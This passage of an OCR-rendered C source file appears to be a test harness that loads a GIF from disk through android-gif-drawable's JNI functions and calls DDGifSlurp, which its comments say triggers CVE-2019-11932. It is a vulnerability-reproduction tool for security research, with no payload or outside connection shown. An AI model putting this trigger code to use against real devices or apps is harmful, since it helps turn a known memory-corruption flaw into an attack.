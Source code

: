     return buf;  
}  
/**  
 * main - read a GIF file, run DDGifSlurp to trigger CVE-2019-11932, and print results  
 * **@argc:** number of command-line arguments  
 * **@argv:** argument vector, expects GIF file path as argv[1]  
 * Returns exit code, 0 on success, non-zero on error  
 */  
**int** main(**int** argc, **char** *argv**[]**) {  
    if (argc != 2) {  
        fprintf(stderr, "Usage: %s <gif_path>\n", argv[0]);  
        return 1;  
    }  
    **const** **char** *input_path = argv[1];  
    /* 1. Read GIF from disk */  
    **size_t** len = 0;  
    **uint8_t** *data = read_file(input_path, &len);  
    if (!data) {  
        fprintf(stderr, "[-] Failed to read %s\n", input_path);  
        return 1;  
    }  
    /* 2. Initialize Java VM without custom options */  
    if (init_java_env(&ctx, NULL, 0) != 0) {  
        fprintf(stderr, "[-] init_java_env failed\n");  
        free(data);  
        return 1;  
    }  
    /* get JNIEnv */  
    JNIEnv *e = ctx.env;  
    /* 3. Ensure GIF library's JNI_OnLoad runs to set up g_jvm */  
    JNI_OnLoad(ctx.vm, NULL);  
    /* 4. Single open-decode-free cycle */  
    /* Create Java byte[] */  
    jbyteArray arr = (*e)->NewByteArray(e, (jsize)len);  
    if (!arr) {  
        fprintf(stderr, "[-] NewByteArray failed\n");  
        free(data);  
        return 1;  
    }  
    (*e)->SetByteArrayRegion(e, arr, 0, (jsize)len, (**const** jbyte *)data);  
    /* open */  
    jlong gptr = Java_pl_droidsonroids_gif_GifInfoHandle_openByteArray(e, NULL, arr);  
    (*e)->DeleteLocalRef(e, arr);  
    if ((*e)->ExceptionCheck(e) || gptr == 0) {  
        fprintf(stderr, "[-] openByteArray failed\n");  
        (*e)->ExceptionClear(e);  
        free(data);  
        return 1;  
    }  
    /* rewind */  
    Java_pl_droidsonroids_gif_GifInfoHandle_reset(e, NULL, gptr);  
    /* decode (vulnerable) */  
    DDGifSlurp((GifInfo *)(**intptr_t**)gptr, true, false);  
    /* print some info */  
    GifInfo *info = (GifInfo *)(**intptr_t**)gptr;  
    printf("[+] GifInfo at %p: %lu x %lu, %lu frames, loop %lu, error %d\n",  
           (**void***)info,  
           (**unsigned** **long**)info->originalWidth,  
           (**unsigned** **long**)info->originalHeight,  
           (**unsigned** **long**)info->gifFilePtr->ImageCount,  
           (**unsigned** **long**)info->loopCount,  
           (**int**)info->gifFilePtr->Error);  
    /* free */  
    Java_pl_droidsonroids_gif_GifInfoHandle_free(e, NULL, gptr);  